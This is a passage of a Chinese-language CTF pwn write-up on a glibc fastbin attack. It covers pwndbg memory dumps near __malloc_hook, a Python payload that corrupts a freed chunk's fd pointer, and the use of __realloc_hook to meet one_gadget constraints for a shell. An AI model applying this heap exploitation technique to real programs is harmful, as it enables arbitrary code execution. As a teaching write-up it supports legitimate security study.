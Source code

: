 ### fastbin attack打入 malloc_hook处

在 malloc_hook -0x23处符合fastbin 的size域.

```
pwndbg> x /40gx (long int)&__malloc_hook - 0x23
0x7f5cc741baed:	0x5cc741a260000000	0x000000000000007f
0x7f5cc741bafd:	0x5cc70dce20000000	0x5cc70dca0000007f
0x7f5cc741bb0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7f5cc741bb1d:	0x0000000000000000	0x0000000000000000
0x7f5cc741bb2d:	0x0000000000000000	0x0000000000000000
0x7f5cc741bb3d:	0x0000000000000000	0x0000000000000000
0x7f5cc741bb4d:	0x6b33cd5d30000000	0x0000000000000055
0x7f5cc741bb5d:	0x0000000000000000	0x0000000000000000
0x7f5cc741bb6d:	0x0000000000000000	0x6b33cd5f10000000
0x7f5cc741bb7d:	0x6b33cd5ca0000055	0x6b33cd5ca0000055
0x7f5cc741bb8d:	0x6b33cd5ca0000055	0x5cc741bb88000055
```

添加chunk1,使大小大于0x80,然后溢出到chunk2,修改chunk2的fd,实现fastbin attack,将fd指向 malloc_hook -0x23

```python
	#通过开辟内存溢出掌控chunk 2, 在fastbin 中chunk 2是我们之前释放的, 现在只需要修改fd指向 malloc_hook -0x23处
   p = 'B' * 0x80
	p += p64(0)
	p += p64(0x71)
	p += p64(main_arena - 0x33)
	p += '\n'
	ad(0xA0, p)
	ad(0x68, '\n') #for ajust fastbin
    
```

### 修改malloc_hook

由于直接修改malloc_hook为one_gadget,由于参数 [rsp + x] x 为0x30,0x50,0x70都不能使[rsp + x]为0,也就是说在执行execve的时候,第二个参数的内容没有满足为 0,所以不能触发get shell, 需要使用 realloc_hook来进行调整rsp的偏移,进而修改[rsp + x]满足为0,而在realloc_hook处,我们可以填写reallc的地址根据push来调整rsp的偏移,达到 [rsp + x]为0, 而在执行push完之后,就先进行判断 realloc_hook是否为0,若不为0,就先执行 realloc_hook处,这时我们就可以填写one_gadget 到realloc_hook处来打one_gadget
#### realloc_hook反汇编
```
pwndbg> disass 0x7fe7cb0ea6c0
Dump of assembler code for function __GI___libc_realloc:
   0x00007fe7cb0ea6c0 <+0>:	push   r15
   0x00007fe7cb0ea6c2 <+2>:	push   r14
   0x00007fe7cb0ea6c4 <+4>:	push   r13
   0x00007fe7cb0ea6c6 <+6>:	push   r12
   0x00007fe7cb0ea6c8 <+8>:	mov    r13,rsi
   0x00007fe7cb0ea6cb <+11>:	push   rbp
   0x00007fe7cb0ea6cc <+12>:	push   rbx
   0x00007fe7cb0ea6cd <+13>:	mov    rbx,rdi
   0x00007fe7cb0ea6d0 <+16>:	sub    rsp,0x38
   0x00007fe7cb0ea6d4 <+20>:	mov    rax,QWORD PTR [rip+0x33f8f5]        # 0x7fe7cb429fd0
   0x00007fe7cb0ea6db <+27>:	mov    rax,QWORD PTR [rax]
   0x00007fe7cb0ea6de <+30>:	test   rax,rax
   0x00007fe7cb0ea6e1 <+33>:	jne    0x7fe7cb0ea8e8 <__GI___libc_realloc+552>
   0x00007fe7cb0ea6e7 <+39>:	test   rsi,rsi
   0x00007fe7cb0ea6ea <+42>:	jne    0x7fe7cb0ea6f5 <__GI___libc_realloc+53>
   0x00007fe7cb0ea6ec <+44>:	test   rdi,rdi

```
通过调试,试出了有一个one_gadget满足execve 第二个参数内容为0的条件
